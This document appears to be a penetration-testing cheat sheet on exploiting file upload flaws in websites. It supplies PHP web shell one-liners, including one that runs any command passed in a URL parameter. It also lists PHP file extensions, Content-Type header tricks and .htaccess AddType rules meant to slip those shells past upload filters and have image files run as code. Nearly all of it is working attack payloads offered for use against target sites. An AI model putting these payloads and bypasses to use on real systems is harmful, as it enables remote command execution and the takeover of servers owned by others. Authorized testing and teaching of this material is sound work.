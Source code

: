 You should always test for file upload vulnerabilities by trying to upload simple php shells in target websites.

    <?php system('ls') ?>
  
    <?php system('id') ?>
  
    <?php system($_GET['cmd']); ?>       to get the file http://site.com/files/avatars/profile.jpg?cmd=ls

## Via Common php file extensions:
1. .php
2. .php3
3. .php4
4. .php5
5. .php6
6. .phtml
7. .png.php
8. .jpg.php
9. .jpeg.php


for shell.php above add ?cmd=<command-e.g whoami> in the path where the file is uploaded eg /images/safeImage.php?cmd=whoami

## via Content-Type Header Tricks (For Upload Bypass)
image/jpeg	Upload shell.php but rename it shell.jpg and set this as Content-Type. Some apps only check the Content-Type.

application/x-php	Old trick if server-side allows this — rare now.

application/octet-stream	Generic binary stream. Sometimes used to bypass filters that expect image/*.

text/plain	Might bypass if the app only checks for image MIME types.

multipart/form-data; boundary=xyz	Used to send raw POST data for file upload, manipulating boundaries and headers.

text/html	Sometimes used to trick filters, especially in combo with file extension manipulation.

image/png + fake header	Use a real image header + PHP code.


## Via .htaccess:
filename=".htaccess"    OR    ".htaccess%00.jpg"

      AddType application/x-httpd-php .jpg         ---->This will process any jpg file uploaded as php: Also make sure to set Content-Type: application/x-php when uploding the jpg

      AddType text/html .jpg                       ---->This will process any jpg file uploaded as html

